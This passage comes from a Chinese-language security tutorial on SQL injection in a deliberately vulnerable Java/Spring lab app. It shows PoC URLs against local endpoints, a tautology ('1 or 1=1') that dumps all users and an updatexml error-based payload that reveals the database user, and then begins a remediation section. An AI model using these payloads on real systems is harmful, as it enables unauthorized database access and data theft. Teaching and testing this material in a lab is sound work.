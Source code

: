 2. 预编译使用不当

尽管用了预编译，但仍然直接拼接：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756280868931-16ca9585-3848-4da4-8144-fda6dd96e9e5.png)

PoC：

    - 返回所有用户数据

```plain
http://127.0.0.1:8888/vulnapi/sqli/jdbc/vul2?id=1 or 1=1
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756280984714-64d5a724-24eb-41de-8500-f4bb6a27f3f7.png)

    - 返回当前数据库用户

```plain
http://127.0.0.1:8888/vulnapi/sqli/jdbc/vul2?id=1 and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756281106332-704167c1-af65-4933-8e58-95525ed223a9.png)

3. JdbcTemplate使用不当

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756282306137-31ae686c-5946-4c7d-8902-0c650502e88f.png)

PoC：

    - 返回所有用户数据

```plain
http://127.0.0.1:8888/vulnapi/sqli/jdbc/vul3?id=1 or 1=1
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756282399080-1cd3ac57-014f-47ff-abee-ba728dedb96b.png)

页面虽然返回了`Whitelabel Error Page`，但是其实SQL注入已经触发了，只是因为`queryForMap`要求返回结果只能有一条记录，如果结果是多条，Spring会抛出`IncorrectResultSizeDataAccessException`，所以会看到报错页面。

对此，可以简单改造下`/vul3`接口：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756282611869-e8309d90-a3bf-4722-9fae-3f7d00fa41ff.png)

再使用同一个PoC，就可以看到返回了所有用户数据：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756282657527-bf7c05d2-8326-4fef-ad6f-ee5d9e926d26.png)

#### 修复意见
1. 黑名单过滤（会存在绕过且易误伤，不推荐）

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756282958560-4f49d557-205e-4d96-8893-e72fc3e47259.png)

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756282987695-1aae0b51-dbcc-4fc0-b1fd-db9a20e9dc66.png)
